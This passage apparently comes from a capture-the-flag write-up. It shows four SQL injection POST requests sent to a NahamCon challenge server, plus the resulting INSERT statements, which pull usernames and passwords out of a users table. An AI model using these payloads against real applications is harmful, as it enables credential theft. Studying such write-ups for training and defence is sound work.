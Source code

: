 Hmm... The **table `users` looks juicy**, as it should holds some users' credentials!

Let's exfiltrate table `users` records!!

**Payloads:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+0));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+1));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+2));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+3));--+-
```

**Final executed SQL statements:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 0));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 1));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 2));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 3));-- -');
```
